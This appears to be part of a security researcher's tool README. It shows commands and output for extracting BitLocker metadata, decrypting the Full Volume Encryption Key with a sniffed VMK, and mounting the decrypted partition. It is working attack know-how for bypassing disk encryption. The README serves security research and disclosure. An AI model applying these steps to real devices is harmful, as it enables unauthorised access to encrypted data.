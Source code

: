 The encrypted FVEK, the used nonce, and the corresponding message authentication code (MAC) can be extracted from the encrypted BitLocker-partition using the software tool [dislocker-metadata](https://github.com/Aorimn/dislocker).
```
sudo dislocker-metadata -V /dev/sda2 > dislocker-metadata.txt
```

The following output exemplarily illustrates the successful decryption of a FVEK with the correctly sniffed VMK:
```
$ python bitlocker_fvek_decrypt.py -f dislocker-metadata.txt -k vmk.bin
 
  ___ _ _   _            _             _____   _____ _  __  ___                       _  
 | _ |_) |_| |   ___  __| |_____ _ _  | __\ \ / / __| |/ / |   \ ___ __ _ _ _  _ _ __| |_
 | _ \ |  _| |__/ _ \/ _| / / -_) '_| | _| \ V /| _|| ' <  | |) / -_) _| '_| || | '_ \  _|
 |___/_|\__|____\___/\__|_\_\___|_|   |_|   \_/ |___|_|\_\ |___/\___\__|_|  \_, | .__/\__|
                                                                            |__/|_|      
BitLocker FVEK Decrypt v0.2 by Matthias Deeg - SySS GmbH
Decrypts encrypted BitLocker Full Volume Encryption Keys (FVEK)
---
[+] Extracted nonce:
    409b87a369dbd501d9010000
[+] Extracted MAC:
    12c7b1c759e76ad88c3efd451a0fc945
[+] Extracted payload:
    fd82fcf27ded951a2327e2e9d00b9ba0a3245f949bc53163bcc26088531215d17be6f99794d3fcfeb22bb41e
[+] Decrypted Full Volume Encryption Key (FVEK):
    561bd26ca61fa3fb3445994b0f62649ce86e90085c0ff25dda57be61c2667cb6
[+] Created FVEK file 'fvek.bin' for use with dislocker
```

By knowing the FVEK, the BitLocker-encrypted partition can be mounted, for instance using the software tool **bdemount**.
```
mkdir /mnt/bitlocker
 
mkdir /mnt/ntfs
 
bdemount -k 561bd26ca61fa3fb3445994b0f62649ce86e90085c0ff25dda57be61c2667cb6 /dev/sda2 /mnt/bitlocker/
 
mount -r ro /mnt/bitlocker/bde1 /mnt/ntfs
 
ls -la /mnt/ntfs/                                                                                                                                                                                                                                                                                         
total 19740361                                                                                                                                                                                                                                                                                                                
drwxrwxrwx 1 root root           0 14. Jan 08:30 '$Recycle.Bin'                                                                                                                                                                                                                                                               
drwxrwxrwx 1 root root        4096 28. Jan 15:33  .                                                                                                                                                                                                                                                                           
drwxr-xr-x 4 root root        4096  4. Feb 15:54  ..                                                                                                                                                                                                                                                                          
```